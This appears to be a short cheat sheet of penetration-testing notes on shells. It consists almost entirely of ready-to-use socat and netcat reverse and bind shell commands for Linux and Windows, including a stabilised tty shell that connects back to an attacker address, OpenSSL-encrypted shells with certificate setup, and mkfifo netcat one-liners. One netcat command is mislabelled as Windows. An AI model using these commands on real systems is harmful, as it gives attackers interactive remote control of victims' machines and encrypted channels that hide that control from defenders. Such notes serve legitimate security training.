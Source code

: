 ## Running Socat Shells

Socat is the **connector between two points, which could be either a listening port and the keyboard, the listening port and a file, or two listening ports.**

### Reverse shells

Basic reverse shell listener in ‘socat’: ```socat TCP-L:<port> -```
Connecting reverse listener back back:
Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

### Fully stable Linux tty reverse shell

Setting up listener: `socat TCP-L:<port> FILE:`tty`,raw,echo=0`
Connecting back to listener: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Bind shells

Linux code to start a listener: `socat TCP-L:<PORT> EXEC:"bash -li"`
Windows code to start a listener: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

Code to connect to listener via port: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`


## Socat Encrypted Shells

- Socat is able to create encrypted shells of both binded and reverse
- Syntax for encrypted shells uses OPENSSL in place of TCP


- Certificate must be generated to use encrypted shells
- Certificate must be used with listener


- Example code to create certificate:
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
- After creating certificate must merge certificate and file into pem file:
`cat shell.key shell.crt > shell.pem`
- Then to set up reverse shell listener: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
- This makes it so no verification needed
- Then connect back:
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`
- Bind shell uses same exact technique


- Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
- Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0`


## Common Shell Payloads

To use netcat as a listener for a bindshell (Windows): `nc -lvnp <PORT> -e /bin/bash`
To use netcat as a listener for a bindshell (Linux): `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
To send a netcat reverse shell: `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
